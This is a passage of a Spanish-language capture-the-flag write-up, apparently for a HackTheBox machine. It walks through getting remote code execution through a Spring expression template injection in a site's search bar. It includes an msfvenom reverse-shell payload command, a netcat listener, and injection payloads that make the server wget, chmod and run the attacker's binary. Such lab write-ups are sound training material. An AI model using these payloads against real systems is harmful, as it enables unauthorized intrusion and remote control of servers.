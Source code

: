 Exploit en pyton para entablar una shell contra el servidor.
{:.note}

Yo no opte por este camino ya que la shell no respodia bien, ni con tratamiento.
{:.note title="Attention"}

***
### Segunda opccion.

En primer lugar, necesitaremos generar una shell inversa usando msfvenom. Recuerda sustituir 

el valor LHOST por la dirección IP de tu máquina de ataque.


```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.57 LPORT=443 -f elf > r.elf
```

Pon a la escucha el netcat yo siempre lo hago asi `nc -lvnp 443`.

Levanta un servidor HTTP en la misma ubicación que r.elf, utilizando `python3 -m http.server`. 

A continuación, envíe los siguientes comandos uno a uno sobre la barra de búsqueda del sitio web 

para transferir r.elf, cambiar el permiso y ejecutarlo.


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/r.elf")}
```


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}
```
Ya que podemos darle permisos desde aqui es algo que vamos aprovechar.
{:.note}


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
```
Al esjecutar este one-liner se establecera la coneccion con el servido atraves de una `reverse-shell` 

por eso dejamos a la escucha netcat.
{:.note}


Y para seguir aprovecahando la vulnerabilidad de cara al futuro en la misma ubicacion decargate 

el `pspy64` y el `LinEnum`, podriamos usar.


![list](/assets/img/redpanda/Kali-2022-09-02-01-33-49.png){:.lead width="800" height="100" loading="lazy"}
Listo para enviar al servidor. 
{:.note}
